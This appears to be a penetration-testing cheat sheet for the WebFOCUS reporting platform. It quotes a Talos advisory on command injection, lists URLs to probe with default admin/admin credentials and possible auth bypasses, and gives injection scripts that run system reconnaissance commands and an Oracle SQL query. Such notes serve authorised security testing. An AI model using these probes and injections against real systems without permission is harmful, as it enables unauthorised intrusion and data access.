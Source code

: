 WebFOCUS

# WebFOCUS

WebFocus: http://infocenter.informationbuilders.com/wf81rel/index.jsp 
 
### Vulnerabilities
 
From https://www.talosintelligence.com/vulnerability_reports/TALOS-2017-0315:
*Code injection is achieved on the following URL: `/ibi_apps/WFServlet`
By successfully injecting WebFOCUS code on this URL parameter while properly completing the expected syntax, an attacker can leverage the "! " statement of WebFOCUS which allows for system commands to be executed via the reporting module code.*
 
### URLs to test
 
| URL | Result|
|-----|-------|
|/ibi_apps/bid | Access to the main interface - might bypass other auth restrictions|
|/ibi_apps |To test if WebFOCUS is available, default creds of admin/admin|
|/ibi_apps/ibi_html | TOC Report?|
|/ibi_help|Help page|
|/ibi_apps/rs?IBIRS_action=TEST | The RESTful Web Services Test Page |
|/ibi_apps/WFServlet?IBFS1_action=TEST|The RESTful Web Services Test Page|
|/ibi_apps/rs/ibfs?IBRS_action=privileges| Should list available privileges|
|/ibi_apps/rs?IBIRS_action=get&IBIRS_path=/WFC/Repository&IBIRS_service=ibfs|Should list some folders?|
|/ibi_apps/rs/ibfs/WFC/Repository?IBIRS_action=get|Same as above ?|
|/ibi_apps/rs/ibfs/EDA?IBIRS_action=get|This RESTful web service request can be used to list the Reporting Server nodes that are available to WebFOCUS.|
|/ibi_apps/rs/ibfs/EDA/NodeName?IBIRS_action=get|List the applications running on a node (Nodes can be found from the query above this)|
|/ibi_apps/rs/ibfs/EDA/NodeName/AppName?IBIRS_action=get|List the files within an application - relpace NodeName and AppName|
 
 
### Script Notes
 
A minimum script needed. It throws errors but still executes
 
**Command Execution**
```
-SYSTEM ps aux
!ps aux
!id
!whoami
!/sbin/ifconfig -a

-RUN
```	

**SQL**
``` 
- SET &ECHO=ALL

SET SQLENGINE=SQLORA
ENGINE SQLORA

	SELECT user FROM dual

END

-RUN
```

### References
 
Documentation: 
- https://techsupport.informationbuilders.com/public/tc-library.html#collapseOne
- http://documentation.informationbuilders.com
 
REST authentication:
- http://infocenter.informationbuilders.com/wf8104/topic/pubdocs/REST_WebServices/source/topic12.htm
- http://documentation.informationbuilders.com/wf77x.asp
